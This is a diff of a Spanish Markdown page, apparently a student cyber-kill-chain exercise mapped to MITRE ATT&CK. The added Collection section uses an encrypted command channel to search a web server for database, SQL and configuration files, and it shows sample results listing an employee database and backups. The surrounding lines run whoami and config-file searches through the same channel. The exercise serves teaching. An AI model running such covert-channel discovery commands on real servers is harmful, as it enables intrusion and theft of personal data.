

Before and after one commit to dvazquez1981/ceiot_base, a Markdown page: CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
+++ b/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
@@ -837,7 +837,7 @@ resultado:
 
 
            - Ejemplos de uso
-                ```text
+              ```text
 
                echo "=== TESTEO CANAL CIFRADO ==="
                echo "Usuario: $(ejecutar_comando_cifrado 'whoami')"
@@ -848,11 +848,29 @@ resultado:
                echo "5. Configuraciones:"
                         ejecutar_comando_cifrado 'find / -type f -name "*.conf" 2>/dev/null | head -3'
 
-               ```
+              ```
 
 
 ## Actions on Objectives
 - TA0009 – Collection
 
+    Recopilación de Información mediante Canal Cifrado
+    - T1082 – System Information Discovery
+      Descubrimiento de estructura mediante canal cifrado:
+      ```text
+
+      # Explorar estructura de directorios usando el canal seguro
+      ejecutar_comando_cifrado 'find /var/www -name "*.db" -o -name "*.sql" -o -name "*database*" 2>/dev/null'
+      ```
+      Respuesta:
+      ```text
+      /var/www/html/siper/database/
+      /var/www/html/siper/database/empleados.db
+      /var/www/html/siper/config/database.conf
+      /var/www/html/siper/backups/backup_20240901.sql
+      ```
+
+
+
 
 - TA0010 – Exfiltration
````
